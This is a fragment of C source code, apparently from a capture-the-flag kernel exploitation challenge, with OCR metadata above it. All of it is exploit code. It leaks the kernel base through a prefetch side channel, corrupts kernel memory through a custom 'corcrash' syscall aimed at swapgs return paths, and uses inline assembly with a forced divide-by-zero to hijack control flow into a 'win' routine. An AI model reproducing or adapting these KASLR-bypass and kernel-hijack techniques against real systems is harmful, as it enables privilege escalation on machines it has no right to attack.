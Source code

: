 ``` c
	while(1) {}
}

#define SYS_corcrash 470

void corcrash(ul addr, ul val) {
	syscall(SYS_corcrash, addr, val);
}

int main(int argc, char** argv) {
	if (argc == 1) {
		ul kbase = prefetch() - 0x1000000;
		leak("kbase", kbase);

		corcrash(kbase + SWAPGS_SYSRET, 0);
	}

	struct sigaction sa_fpe = {0};
    sa_fpe.sa_sigaction = sigfpe_handler;
    sa_fpe.sa_flags = SA_SIGINFO;
    sigaction(SIGFPE, &sa_fpe, NULL);

	system("touch /tmp/initrd.gz");

	ul kbase = strtoul(argv[1], NULL, 0);  
	leak("kbase", kbase);

	ul physmap = strtoul(argv[2], NULL, 0);  
	leak("physmap", physmap);

	initrd = mmap(NULL, INITRD_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);

	__asm__ __volatile__("mov %%rbp, %0" : "=r"(saved_rbp));
	asm volatile (
		".intel_syntax noprefix\n"
		"mov r15, %0\n"
		"mov r14, 0x33\n"
		"mov r13, 0x3206\n"
		"mov r12, %1\n"
		"mov rbp, 0x2b\n"
		"mov rax, 0\n"
		"div rax\n"
		".att_syntax prefix\n"
		:
		: "r" (&win), "r" (&kbase)
		: 
	);
	__asm__ __volatile__("mov %0, %%rbp" :: "r"(saved_rbp));

	corcrash(kbase + SWAPGS_AND_RESTORE, physmap + CEA);
}
```
